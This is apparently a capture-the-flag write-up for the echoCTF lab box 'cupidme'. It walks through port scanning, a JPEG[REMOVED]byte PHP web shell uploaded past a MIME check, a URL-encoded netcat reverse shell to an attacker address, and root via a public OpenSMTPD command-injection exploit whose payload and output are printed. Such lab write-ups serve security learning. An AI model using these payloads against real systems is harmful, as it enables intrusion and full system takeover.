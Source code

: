 ```yaml
---
layout: post
title: cupidme 
feature-img: "assets/img/portfolio/cupidme.png"
img: "assets/img/portfolio/cupidme.png"
date: 06 Jun 2021
tags: [OpenSMTPD, PHP]
---
```




[CVE-2019-14813](https://echoctf.red/target/33)

![](assets/img//cupidme.png)

TEE HEE HEE! Cupid, is an imaginary character. However, Cupid is not the only thing that is imaginary on this system (the box security is equally imaginary)...

Tickle cupid the right way and you'll be surprised.

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 02:20 EDT
Nmap scan report for 10.0.30.187
Host is up (0.080s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to Cupid's homepage

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.75 seconds
```
### Enumartion - WEB

TEE HEE HEE!
Hello! this is Cupid-Me and <b> this is the page where I upload my awesome pictures</b> for everyone to admire...
What can I say, lenses love me.

but where is the upload form?  

checking the source code and i found this:

<b><!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>--> </b>

unmarked it, and i got the upload form:


![](assets/img//upload_cupid.png)


### RCE

we can upload files, but its impossiable to this check by hand, so  i used burp for trying upload files.

and then i faced new problem :

```
    [0] => Mimetype not allowed, please upload an image/jpeg file.
    [1] => The maximum file size supported is 39 bytes
```
how to bypass it? 

i have sucees to minimize the file size, but still facing th mimtype.

after some reading about bypass php restrication, i found file signatures.


[magic_byte](https://en.wikipedia.org/wiki/List_of_file_signature)

```
echo '\xff\xd8<?=`{$_GET["cmd"]}`;' > exec.php

$ file shell.php
shell.php: JPEG image data

 ```



after uploading the file i got - 

```
Success. file uploaded at images/shell.php
```

let try to get RCE:

http://10.0.40.0/images/shell.php?cmd=id 

��uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Get Shell 

http://10.0.40.0/images/exec.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.0.10%204444%20%3E%2Ftmp%2Ff

*url encode 

and i got shell as www-data

www-data@cupidme:~/html/images$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data

### Privilege escalation
```
www-data@cupidme:~/html/images$ ss -ant
ss -ant
State        Recv-Q   Send-Q     Local Address:Port        Peer Address:Port    
LISTEN       0        128           127.0.0.11:36769            0.0.0.0:*       
LISTEN       0        128            127.0.0.1:9001             0.0.0.0:*       
LISTEN       0        128              0.0.0.0:80               0.0.0.0:*       
LISTEN       0        5              127.0.0.1:25               0.0.0.0:*       
TIME-WAIT    0        0              127.0.0.1:49074          127.0.0.1:80      
CLOSE-WAIT   9        0              127.0.0.1:9001           127.0.0.1:41482   
TIME-WAIT    0        0              127.0.0.1:9001           127.0.0.1:41504   
ESTAB        0        8              10.0.40.0:59836         10.10.0.10:4444    
TIME-WAIT    0        0              127.0.0.1:41506          127.0.0.1:9001    
FIN-WAIT-2   0        0              10.0.40.0:80            10.10.0.10:51002   
www-data@cupidme:~/html/images$ ps -aux | grep root
ps -aux | grep root
root         1  0.0  0.0   3736  2836 pts/0    Ss+  11:17   0:00 /bin/bash /entrypoint.sh tail -f /var/log/nginx/error.log /var/log/nginx/access.log
root        17  0.0  0.2  80020 10036 ?        Ss   11:17   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
root        28  0.0  0.0   5512  2072 ?        Ss   11:17   0:00 /usr/sbin/cron
root        60  0.0  0.0  69736  1728 ?        Ss   11:17   0:00 nginx: master process /usr/sbin/nginx
root        81  0.0  0.0  12324  3180 ?        Ss   11:17   0:00 /usr/local/sbin/smtpd
root        83  0.0  0.0   2328   752 pts/0    S+   11:17   0:00 tail -f /var/log/nginx/error.log /var/log/nginx/access.log
www-data  2522  0.0  0.0   3084   828 ?        S    13:16   0:00 grep root
www-data@cupidme:~/html/images$ 

```

i noticed for port 25 in listen state, so i checked it:
<b>220 cupidme.echocity-f.com ESMTP OpenSMTPD</b>

searching for online exploit, and found this one  [OpenSMTPD3](https://www.exploit-db.com/exploits/48051)

lets try it:

 perl raptor_opensmtpd.pl LPE
 
 and we goot root - 
 
 
perl raptor_opensmtpd.pl LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cupidme.echocity-f.com ESMTP OpenSMTPD
> HELO fnord
< 250 cupidme.echocity-f.com Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 59a219f1 Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 Jun  6 09:18 /usr/local/bin/pwned
#


#
#

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root

